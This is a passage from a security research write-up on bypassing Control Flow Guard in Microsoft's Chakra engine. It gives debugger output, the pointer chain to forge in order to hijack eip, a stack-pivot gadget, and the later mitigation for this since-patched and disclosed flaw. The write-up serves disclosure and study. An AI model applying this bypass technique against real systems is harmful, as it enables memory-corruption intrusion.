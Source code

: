 ```
07010dc0  5f696000 05a452b8 00000000 5f8db9e0

0:010> u 5f8db9e0
chakra!NativeCodeGenerator::CheckCodeGenThunk:
```

As shown above, Js::JavascriptFunction::DeferredParse gets the NativeCodeGenerator::CheckCodeGenThunk function pointer by resolving the Js::ScriptFunction object, the resolving method is abbreviated as [[[Js::ScriptFunction+14]+10]+28]+0c. So just by forging the data in this memory, it can trigger the call of Js::JavascriptFunction::DeferredParse by calling the function, further to hijack the eip, as shown below.

```
0:010> g
Breakpoint 0 hit
eax=603ba064 ebx=063fba10 ecx=063fba40 edx=063fba40 esi=00000001 edi=058fc6b0
eip=603ba064 esp=058fc414 ebp=058fc454 iopl=0         nv up ei ng nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000283
chakra!`dynamic initializer for 'DOMFastPathInfo::getterTable''+0x734:
603ba064 94              xchg    eax,esp
603ba065 c3              ret
```

By this way, cfg is bypassed and eip is hijacked. This method is simple and stable. It’s convenient to use when you get access to read and write the memory. This exploit has been reported to Microsoft on 25th July, 2015.



##0x03 Mitigation
Microsoft has fixed all the exploits in this post. The mitigation plan is relatively easy, which is to add cft check at this jump.

```
.text:002AB460 push    ebp
.text:002AB461 mov     ebp, esp
.text:002AB463 lea     eax, [esp+arg_0]
.text:002AB467 push    eax
.text:002AB468 call    Js::JavascriptFunction::DeferredParse
.text:002AB46D mov     ecx, eax        ; this
.text:002AB46F call    ds:___guard_check_icall_fptr  //add cfg check
.text:002AB475 mov     eax, ecx
.text:002AB477 pop     ebp
.text:002AB478 jmp     eax
```



##Reference
[《Bypass DEP and CFG using JIT compiler in Chakra engine》](http://xlab.tencent.com/en/2015/12/09/bypass-dep-and-cfg-using-jit-compiler-in-charkra-engine/)

[《spartan 0day & exploit》](https://github.com/exp-sky/HitCon-2015-spartan-0day-exploit/blob/master/Spartan%200day%20%26%20Exploit-m.pdf)